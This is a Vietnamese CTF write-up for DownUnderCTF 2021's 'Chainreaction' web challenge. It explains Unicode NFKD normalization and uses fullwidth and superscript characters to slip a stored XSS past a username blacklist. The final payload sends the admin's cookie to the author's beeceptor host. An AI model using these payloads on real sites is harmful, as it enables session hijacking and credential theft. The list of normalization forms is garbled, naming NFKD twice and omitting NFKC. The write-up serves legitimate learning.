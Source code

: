 ```yaml
---
title: Chainreaction - DownUnderCTF 2021
author: HoangND
date: 2021-09-25 15:55:00 +0700
categories: [Writeups, DownUnderCTF 2021]
tags: [xss, web, unicode normalised]
---
```


Đây là thời gian mình bắt đầu tham gia các chương trình tìm kiếm bug bounty. Tuy nhiên kết quả mang lại chưa được khả quan 😭. Để xốc lại tinh thần mình quyết định lại chơi CTF. Hi vọng bounty đầu tiên của mình sẽ xuất hiện trong tương lai gần.

## Recon

![image](https://user-images.githubusercontent.com/61985236/134768470-0e313bc6-67b4-487a-9542-1ebcc067b6ce.png)
_Trang chủ_

Trang chủ của Chainreaction không có gì đáng bận tâm, ngoại trừ việc ảnh không load được, nhưng hiện tại vẫn không biết lí do thôi bỏ qua. Có hai button đăng ký đăng nhập. 
Ở đây các form này không khai thác được SQLi. Quan sát một chút form đăng ký

![image](https://user-images.githubusercontent.com/61985236/134768675-1fec4bb8-fc48-4249-b28e-fa60a39efc4a.png)
_Trang đăng ký_

Username không được chứa các ký tự < và >. Vậy khả năng cao có thể bypass để khai thác lỗi XSS qua username. Cũng có một điều đặc biệt bên dưới form đăng nhập làm mình chú ý

![image](https://user-images.githubusercontent.com/61985236/134768537-778e468c-5013-4c07-968d-13b121315325.png)
_Trang đăng nhập_

vậy là có trang đăng nhập riêng cho deverloper, vào luôn xem có gì hay ho

![image](https://user-images.githubusercontent.com/61985236/134768551-75408121-ca67-4966-9463-d759f69f5a25.png)
_Trang đăng nhập cho developer_

Hiểu sương sương nghĩa là nếu bạn có tài khoản thì có thể vào đường dẫn /devchat, đặc biệt hơn nếu có tài khoản admin thì có thể vào /admin. Hiện tại đương nhiên mình không thể vào trang admin được rồi, 
ngó devchat xem có gì

![image](https://user-images.githubusercontent.com/61985236/134768594-a9f1049f-714b-4279-84cf-5c907c803954.png)
_/devchat_

Vậy là có hẳn một trang public luôn đoạn chat nội bộ, đúng với mô tả của challenge 🤣🤣🤣

> Hệ thống được xây dựng bởi các sinh viên của trường đại học.
 
Đoạn chat có đề cập đến NFKD => NFKD normalised exploit. Tiếp theo tạo một tài khoản và đăng nhập, thì có thêm trang profile cho phép thay đổi thông tin cá nhân

![image](https://user-images.githubusercontent.com/61985236/134777616-375ddcc1-647c-47e6-848f-eb48744a8daa.png) 
_Trang thông tin tài khoản_

Ta thấy rằng username được hiển thị lên giao diện thông qua lời chào welcome, thử XSS ở đây xem thế nào.

![image](https://user-images.githubusercontent.com/61985236/134777639-266d3c3e-f3ed-4db0-8554-c2453e777a6f.png)

Như vậy hệ thống sử dụng blacklist để kiểm tra thông tin username. Như đã đề cập ở trên, đoạn chat có nhắc đến cái gọi là NFKD, vậy chính xác NFKD là gì và khai thác thế nào mình sẽ trình bày ngắn gọn dưới đây.

## Unicode Normalization vulnerability 

Normalization (chuẩn hóa) là quá trình thay đổi độ dài biểu diễn nhị phân đối với một ký tự cụ thể. Có hai kiểu tương đương giữa các ký tự là _Canonical Equivalence_ và _Compatibility Equivalence_ (mình không biết nên đưa về tiếng việt thế nào)
- Các ký tự tương đương theo kiểu Canonical Equivalence sẽ có cùng biểu diễn khi in hoặc hiển thị.
- Trong khi đó Compatibility Equivalence là kiểu tương đương mềm dẻo hơn khi biểu diễn của hai ký tự tương đương theo kiểu này có thể khác nhau.

Có 4 thuật toán chuẩn hóa được định nghĩa theo chuẩn Unicode: NFC, NFD, NFKD và __NFKD__, mỗi loại áp dụng kỹ thuật chuẩn hóa Canonical và Compatibility theo cách khác nhau. Bạn có thể đọc thêm về các kỹ thuật khác nhau tại Unicode.org.

Chuẩn hóa Compatibility mềm dẻo hơn do đó có thể bị hacker khai thác để vược qua blacklist. Ví dụ ký tự '⑧' sau khi được chuẩn hóa theo kỹ thuật Compatibility sẽ thành ký tự '8', như vậy hacker có thể dùng ký tự này để vượt qua blacklist chứa '8'.

Để hiểu rõ hơn về Unicode Normalization cũng như cách khai thác, bạn có thể tham khảo [tài liệu sau](https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability).

## Solve challenge
Như vậy đã hiểu sơ qua về các khai thác unicode normalization. Bắt tay vào exploit thôi, các ký tự đại diện mình sẽ cần để bypass blacklist sẽ là
- ＜(%ef%bc%9c) thay cho ký tự <
- ＞(%ef%bc%9e) thay cho ký tự >
- ⁱ (%e2%81%b1) thay cho ký tự i

Các ký tự tương đương bạn có thể tìm ở [tài liệu sau](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html).
Test thử script cơ bản, sử dụng beeceptor như một mockup server để validate. Trường mình sử dụng để XSS sẽ là username trong trang profile

```
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
</script>
```

Để bypass blacklist, mình sẽ thay thế các ký tự < > i bằng các ký tự tương đương ở trên (ký tự i để bypass chuỗi 'script'). Như vậy payload của mình sẽ là

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var xhr = new XMLHttpRequest();
  xhr.open("GET","https://hoangnd.free.beeceptor.com");
  xhr.send();
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```
Kết quả gửi request

![image](https://user-images.githubusercontent.com/61985236/134780213-5a10d8ba-d9c7-4964-ac05-88acec404486.png)

Vậy là đã tạo được một node script để chèn javascript, bên beeceptor cũng đã nhận được request

![image](https://user-images.githubusercontent.com/61985236/134780248-c3e390d4-f033-4648-97c8-b909cb7d7b95.png)

Oke, đến đây để mạo danh admin, cần phải có được cookie đăng nhập của admin. How? Đầu tiên cần quay lại một chút trang chát chít của hội dev. Chính ông admin đã tiết lộ như sau

![image](https://user-images.githubusercontent.com/61985236/134780389-516004ed-1d2d-4b64-9d6b-8ca467f38ae5.png)

Do tính năng của trang admin chưa được hoàn thành, admin sẽ sử dụng 1 cookie tĩnh để xác thực, browser của admin chắc chắn còn lưu cookie này. Thế làm thế nào để admin mở profile tài khoản của mình để kích hoạt XSS gửi cookie về cho beeceptor? Câu trả lời nằm ở tính năng report ở trang profile

![image](https://user-images.githubusercontent.com/61985236/134780480-6e2a3b83-2fdc-4953-bad2-121450916e25.png)

Nghĩa là mình cứ ấn report là ông admin sẽ vào trang profile để check lỗi => XSS. Test nhanh kẻo nguội bằng payload sau

```
%ef%bc%9cscr%e2%81%b1pt%ef%bc%9e
  var c = document.cookie;
  var xhr = new XMLHttpRequest();
  xhr.open("POST","https://hoangnd.free.beeceptor.com/exploit");
  xhr.send(c);
%ef%bc%9c/scr%e2%81%b1pt%ef%bc%9e
```

![image](https://user-images.githubusercontent.com/61985236/134780741-24c0408b-9dce-4da6-a747-667e10a08d7b.png)
_Kết quả gửi request_

Tiếp theo là ấn report và quan sát bên beeceptor

![image](https://user-images.githubusercontent.com/61985236/134780783-21a99a0e-69dc-4e9e-bb5f-50cbeff2b536.png)

Vậy là đã lấy được cookie của admin, vào /admin lấy cờ thôi

![image](https://user-images.githubusercontent.com/61985236/134780811-72bcc33c-37a0-43c3-a85a-a9605df6b57f.png)


